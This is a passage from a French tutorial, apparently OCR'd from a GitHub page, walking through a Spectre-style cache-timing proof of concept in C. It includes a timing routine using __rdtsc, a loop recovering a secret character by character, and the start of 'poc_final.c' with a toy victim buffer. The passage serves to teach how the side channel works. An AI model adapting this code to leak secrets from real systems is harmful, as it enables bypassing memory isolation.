 ```c
     * valeur.
     * Il faut faire cet entraînement pour chaque octet testé dans la boucle de la fonction main
     * Au moment où la boucle sera à 83 ou 'S' les instructions suivantes montreront que la valeur est en cache
     * On saura alors que le premier octet du secret est un 'S'
     */

    int before = __rdtsc(); // Donne le nombre de cycle d'horloge actuel
    access(paged_buffer[value * PAGE_SIZE]); // Accès à la zone mémoire
    int after  = __rdtsc(); // Donne le nombre de cycle d'horloge suite à l'accès mémoire
    return after - before; // On retourne la différence pour avoir le temps d'accès
}

int main(void) {
    /* Pour toutes les pages du buffer, on calcule le temps d'accès */
    int evil_idx = 0x12bb36f1; // Exemple au hasard, c'est pour simplifier le code

    /* On boucle sur la longueur du secret pour tout révéler */
    for(int j = 0; j < longueur_secret; j++) {
        for(int i = 'A'; i <= 'Z'; i++) {
            /* Le premier argument, c'est l'index permettant d'atteindre le premier octet du secret */
            printf("%c: %u\n",i, get_index_access_time(evil_idx + j, i)); // On ajoute un à chaque boucle pour avoir tout le secret
        }
    }
}
```

La boucle est faite dans la fonction `main`, on incrémente l'index correspondant au secret pour avoir le secret en entier. C'est assez simple à implémenter avec le programme précédant. Voici ce que le programme final complet donne :

**poc_final.c**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <x86intrin.h>

#define GREEN   "\x1b[32m"
#define RESET   "\x1b[0m"

#define PAGE_SIZE 512
#define COUNT 100
#define BUFFER_SIZE 16



/**
 ** CODE DE LA VICTIME
 **/
volatile uint32_t buffer_size = BUFFER_SIZE;

/* Buffer maitrisé, des valeurs étant entre 0 et 255 */
volatile uint8_t buffer[BUFFER_SIZE] = {0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15};

/* Une valeur absolument inaccessible avec la seule fonction ci-dessous */
char * secret = "SECRET";

volatile uint8_t paged_buffer[256 * PAGE_SIZE];
volatile uint32_t paged_buffer_sz = 256 * PAGE_SIZE;
```